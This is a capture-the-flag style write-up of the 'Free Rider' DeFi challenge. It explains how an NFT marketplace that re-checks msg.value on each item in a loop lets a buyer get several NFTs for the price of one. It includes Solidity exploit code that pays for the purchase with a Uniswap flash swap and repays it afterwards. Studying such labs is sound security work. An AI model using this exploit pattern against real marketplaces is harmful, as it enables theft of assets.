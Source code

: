 # Free Rider

1. To solve this challenge, we have to first find a way to somehow get the NFTs without paying the actual price, and if required, how to flash loan some ETH.

2. We can look into `buyMany` function in `FreeRiderNFTMarketplace.sol`, which call `_buyOne` for the numbers of `tokenIds` array. Inside `_buyOne` it will used `msg.value` and compare it with `priceToPay`, but since we call it in single transaction, every `tokenIds` iteration will have same `msg.value`, which mean we only have to pay for 1 NFTs and we can get the rest for free.

3. But still, we need 15 ETH from somewhere. This one is not mentioned and obvious, but we can flash swap to the created `UniswapPair` contract. With the ETH we got from flash swap, we call `buyMany` and return the borrowed eth to `UniswapPair` .The full code available at `FreeRiderAttack.sol`. Then send all the NFTs to `FreeRiderBuyer` contract.

```solidity
    function flashSwap(uint wethAmount) external {
        // Need to pass some data to trigger uniswapV2Call
        bytes memory data = abi.encode(WETH, wethAmount);

        // amount0Out is WETH, amount1Out is DVT
        pair.swap(wethAmount, 0, address(this), data);

        for (uint256 i = 0; i < 6; i++) {
            nft.safeTransferFrom(address(this), owner, i);
        }
    }

    // This function is called by the DVT/WETH pair contract
    function uniswapV2Call(
        address sender,
        uint amount0,
        uint amount1,
        bytes calldata data
    ) external override {
        require(msg.sender == address(pair), "not pair");
        require(sender == address(this), "not sender");

        (address tokenBorrow, uint wethAmount) = abi.decode(
            data,
            (address, uint)
        );

        // Your custom code would go here. For example, code to arbitrage.
        require(tokenBorrow == WETH, "token borrow != WETH");

        // do malicious thing here
        // first withdraw ETH
        IWETH(WETH).withdraw(wethAmount);

        // then buy NFTs
        marketplace.buyMany{value: 15 ether}(arrayId);
        // then deposit WETH

        // about 0.3% fee, +1 to round up
        uint fee = (wethAmount * 3) / 997 + 1;
        amountToRepay = wethAmount + fee;

        IWETH(WETH).deposit{value: amountToRepay}();

        // // Transfer flash swap fee from caller
        // weth.transferFrom(caller, address(this), fee);

        // Repay
        weth.transfer(address(pair), amountToRepay);
    }
```
